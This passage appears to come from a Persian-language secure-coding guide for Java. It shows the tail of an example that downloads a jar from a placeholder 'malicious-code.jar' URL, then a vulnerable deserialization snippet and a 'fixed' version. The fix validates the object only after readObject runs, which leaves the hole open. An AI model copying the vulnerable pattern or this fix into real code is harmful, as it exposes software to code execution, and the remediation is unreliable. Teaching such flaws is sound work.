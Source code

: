     public static void main(String[] args) {
        String codeUrl = "http://example.com/malicious-code.jar";
        String destinationPath = "/path/to/save/malicious-code.jar";
        downloadCode(codeUrl, destinationPath);
    }
}
{% endhighlight %}





## آسیب پذیری  Deserialization of Untrusted Data

##### 🐞 کد آسیب پذیر


{% highlight php %}
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class DeserializationExample {
    public static void main(String[] args) {
        String serializedData = "serialized_data.ser";
        
        try (FileInputStream fileIn = new FileInputStream(serializedData);
             ObjectInputStream in = new ObjectInputStream(fileIn)) {
            
            Object obj = in.readObject();
            // Process the deserialized object
            
        } catch (IOException | ClassNotFoundException e) {
            // Handle deserialization error
        }
    }
}
{% endhighlight %}






##### ✅ کد اصلاح شده 


{% highlight php %}
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class DeserializationExample {
    public static void main(String[] args) {
        String serializedData = "serialized_data.ser";
        
        try (FileInputStream fileIn = new FileInputStream(serializedData);
             ObjectInputStream in = new ObjectInputStream(fileIn)) {
            
            // Perform validation on the deserialized object
            Object obj = in.readObject();
            if (isValidObject(obj)) {
                // Process the deserialized object
            } else {
                // Handle invalid or malicious object
            }
            
        } catch (IOException | ClassNotFoundException e) {
            // Handle deserialization error
        }
    }
    
    public static boolean isValidObject(Object obj) {